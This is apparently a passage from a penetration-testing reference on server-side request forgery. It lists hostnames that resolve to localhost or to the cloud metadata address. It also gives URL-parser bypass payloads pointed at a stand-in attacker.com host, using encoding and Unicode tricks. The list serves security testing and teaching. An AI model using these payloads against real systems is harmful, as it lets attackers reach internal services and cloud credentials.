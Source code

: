 ```bash
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

![](<../../.gitbook/assets/image (776).png>)

The **Burp extension** [**Burp-Encode-IP**](https://github.com/e1abrador/Burp-Encode-IP) implements IP formatting bypasses.

### Domain Parser

```bash
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
//attacker.com
\/\/attacker.com/
/\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
http://169.254.1698.254\@attacker.com
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ
```

```
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾
⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗
⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰
⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ
Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ
ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```
